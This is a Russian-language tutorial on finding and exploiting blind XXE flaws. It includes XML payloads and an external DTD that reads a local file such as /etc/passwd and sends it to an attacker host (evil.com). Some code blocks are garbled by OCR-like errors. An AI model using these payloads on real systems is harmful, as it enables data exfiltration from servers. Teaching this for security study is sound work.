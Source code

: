 Так же как и XSS blind это слепые уязвимости которые напрямую не выдают ответ. При таком сценарии есть вариант эксплуатации. Ход событий при эксплуатации слепой XXE

### Поиск данной уязвимости 

Проверка наличия уязвимости Blind XXE (XML External Entity) можно пропинговать. Настроив сервер на запись логов о входящих запросов
```
 <?xml version="1.0" encoding="utf-8"?>
 <!DOCTYPE example [
   <!ENTITY xxe SYSTEM "https://evil.com/externalDTD">
 ]>
 <example>
	 &xxe;
 </example>
```

Или **параметризованная внешняя сущность**
```
<Pxml version="1.0" encoding="utf-8"?>
<! DOCTYPE example [
	‹!ENTITY % xxe SYSTEM
		"https://*free.beeceptor.com/xxe_endpoint"›
	%xxe;
]>
<example> 
</examples
```
##### Что здесь происходит?

1. **Объявление XML-документа**:
    - `<?xml version="1.0" encoding="utf-8"?>` — это стандартное объявление XML-документа. Оно указывает версию XML и кодировку.
    
1. **Определение DTD**:
    - `<!DOCTYPE example [...]>` — это определение DTD (Document Type Definition). Оно описывает структуру документа и может содержать сущности.
    
1. **Параметризованная внешняя сущность**:
    - `<!ENTITY % xxe SYSTEM "https://free.beeceptor.com/xxe_endpoint">` — это определение **параметризованной внешней сущности**.
        
        - `%xxe;` — это имя сущности. Оно начинается с `%`, что указывает на то, что это параметрическая сущность.
            
        - `SYSTEM "https://free.beeceptor.com/xxe_endpoint"` — это указание на внешний ресурс (в данном случае — URL).

4. **Использование параметрической сущности**:
    
    - `%xxe;` — это вызов параметрической сущности. Когда XML-парсер обрабатывает этот код, он пытается загрузить данные по указанному URL (`https://free.beeceptor.com/xxe_endpoint`).

5. **Тело XML-документа**:
    
    - `<example></example>` — это корневой элемент XML-документа. В данном случае он пустой.

##### В этом примере:
1. `%xxe;` загружает содержимое файла `/etc/passwd`.
2. `%param;` создает новую сущность `%query;`, которая отправляет данные на сервер злоумышленника (`https://evil.com/xxe_endpoint`).
3. `&query;` выполняет запрос, отправляя содержимое файла на удаленный сервер.

# Пример раскрутки данной уязвимости 

1. Подготовка XML-запроса:
   - Атакующий формирует XML-документ с использованием внешнего DTD:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE r [
  <!ELEMENT r ANY>
  <!ENTITY % extDTD SYSTEM "https://evil.com/externalDTD">
  %extDTD; <!-- Загружает внешний DTD -->
  %param;  <!-- Здесь определена сущность %param -->
  %query;  <!-- Здесь определена сущность %query -->
]>
<r></r>
```

### Как это работает?
- **Внешний DTD**: Атакующий указывает URL на внешний DTD (`https://evil.com/externalDTD`), который будет загружен сервером.
- **Сущности**: Внешний DTD определяет сущности, которые будут использоваться для извлечения данных.

## 2. Сервер обрабатывает запрос

Сервер принимает XML-документ и пытается его обработать. В процессе обработки сервер загружает внешний DTD из указанного URL.

### Что происходит на сервере?
1. **Загрузка DTD**: Сервер загружает DTD с `https://evil.com/externalDTD`.
2. **Определение сущностей**: Внешний DTD определяет сущности, которые будут использоваться для извлечения данных.

### Пример внешнего DTD:
```
<!ENTITY % file SYSTEM "file:///path/to/file">
<!ENTITY % param "<!ENTITY &#x25; query SYSTEM 'https://evil.com/xxe_endpoint?data=%file;'>">
```

#### Как это работает?
- **Сущность `%file`**: Указывает на локальный файл, который нужно извлечь.
- **Сущность `%param`**: Определяет сущность `%query`, которая будет использоваться для отправки данных на сервер злоумышленника

- `&#x25;` — это числовая ссылка на символ `%` (процент).
    - `&#x` указывает, что используется шестнадцатеричное представление.        
    - `25` — это шестнадцатеричное значение символа `%` в таблице ASCII/Unicode.
	Это надо чтоб использовать символ `%` внутри значения сущности, тем самым его нужно экранировать, чтобы он не интерпретировался как начало новой параметрической сущности.
## 3. Определение сущностей на сервере

Сервер возвращает ответ, содержащий определения сущностей, которые будут использоваться для извлечения данных.

## 4. Вызов параметра

Парсер использует сущность `%param`, что приводит к вызову сущности `%query`. Это вызывает запрос к серверу злоумышленника с данными из локального файла.


